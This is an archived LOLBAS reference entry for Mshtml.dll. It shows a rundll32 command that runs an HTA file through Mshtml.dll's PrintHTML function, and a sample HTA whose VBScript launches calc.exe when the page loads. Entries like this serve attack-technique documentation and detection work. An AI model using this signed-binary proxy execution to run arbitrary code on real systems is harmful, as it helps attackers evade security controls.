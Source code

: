 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Mshtml.dll

* Functions: Execute

```
rundll32.exe Mshtml.dll,PrintHTML "C:\temp\calc.hta"    
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample (calc.hta):
```
<html>
<head>
	<title>LOLBin</title>
	<script language="VBScript">
		Sub RunProgram
            Set objShell = CreateObject("Wscript.Shell")
            objShell.Run "c:\windows\system32\calc.exe"
			Self.Close
        End Sub
	</script>
</head>
<body onload="RunProgram">
    <h1>LOLBin</h1>
</body>
</html>
```

Resources:
* https://twitter.com/pabraeken/status/998567549670477824

Full path:
```
c:\windows\system32\Mshtml.dll
c:\windows\sysWOW64\Mshtml.dll
```

Notes:


Detection:
